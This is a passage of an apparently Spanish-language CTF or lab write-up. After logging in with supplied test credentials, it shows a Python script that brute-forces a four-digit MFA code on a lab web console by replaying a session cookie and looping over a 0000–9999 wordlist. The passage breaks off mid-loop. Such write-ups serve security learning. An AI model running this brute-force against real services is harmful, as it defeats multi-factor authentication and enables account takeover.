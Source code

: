 Haciendo uso de las credenciales: `jason_test_account : violet` pasaremos a un panel donde debemos ingresar un código.

![20231209114428.png](20231209114428.png)

Para encontrar el código realizaremos un script en python3, pero haciendo uso de las cabeceras donde esta la cookie de la sesión iniciada.

```python
#!/usr/bin/python3

import requests
import signal
from pwn import *

def ctrl_C(signal,frame):
	print("[+] Saliendo..")
	exit(1)

signal.signal(signal.SIGINT, ctrl_C)

url = 'http://10.10.102.15/console/mfa.php'
headers = {
'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:120.0) Gecko/20100101 Firefox/120.0',
'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
'Accept-Language': 'es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3',
'Accept-Encoding': 'gzip, deflate, br',
'Content-Type': 'application/x-www-form-urlencoded',
'Connection': 'close',
'Cookie': 'PHPSESSID=rs5hqrij41to7vs7ri9ob5tabn; user=jason_test_account; pwd=violet'
}

def send_code():
	file=open("/usr/share/seclists/Fuzzing/4-digits-0000-9999.txt","r")
	p1=log.progress("Data Code: ")
	for code in file:
		p1.status("Validando Code: %s" %(code))
		#print(code.split())
		data = {'code': code.split()}
		response = requests.post(url, headers=headers, data=data)
		if 'Incorrect code' in response.text:
			pass
		else:
```
